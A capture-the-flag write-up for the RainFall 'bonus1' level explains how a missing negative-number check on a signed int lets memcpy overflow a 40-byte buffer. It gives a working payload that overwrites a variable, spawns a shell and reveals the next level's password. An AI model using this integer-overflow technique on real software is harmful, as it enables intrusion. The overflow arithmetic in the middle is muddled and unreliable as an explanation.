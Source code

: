 1. Check the protections:

In the source code, we can see this code:
```c
char str[40];
int arg1 = atoi(argv[1]);

if (arg1 > 9) return 1;

memcpy(str, argv[2], (arg1 * 4));
```

We can see that the protection of `arg1` don't let us have more than `9` as value,
and with that protection, the `memcpy` cannot go above `35`. So, we cannot have any buffer overflow

2. Bypass protection

Except if the developer used an `int` and forgot to check the negative number.

With that case, we can create an `int` overflow, and have a very large positive number.

For example, if we want to write 64 bytes, we know that on each turn, we want 16 more bytes.

Then, we simply need to send: INT_MIN + 16.

The result will be for example:
1. (-2147483648 + 16) * 1 = -2147483632
2. (INT_MIN + 16) * 2 = 2 * 16 + 2 * (INT_MIN) = 2 * 16 + 0 = 32
3. (INT_MIN + 16) * 3 = 2 * INT_MIN + 32 + INT_MIN = 32 + 16 + INT_MIN = 48 + INT_MIN
4. (INT_MIN + 16) * 4 = 2 * 2 * INT_MIN + 48 + 16 = 64.

With that example you can see that we can simply forge any number we want with the overflow.

3. Write `0x574f4c46` in `arg1`

Okay, so to write the correct value in `arg1`, we need to overflow the `40` bytes, and write `4` bytes more.

It means that we need to write `44` bytes, so `11` bytes on each turn.

Then it means that arg1 should be equals to `-2147483637`

And we need to write after that `\x57\x4f\x4c\x46`

4. Payload

```sh
bonus1@RainFall:~$ ./bonus1 -2147483637 "$(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')"
$ cd ../bonus2
$ cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```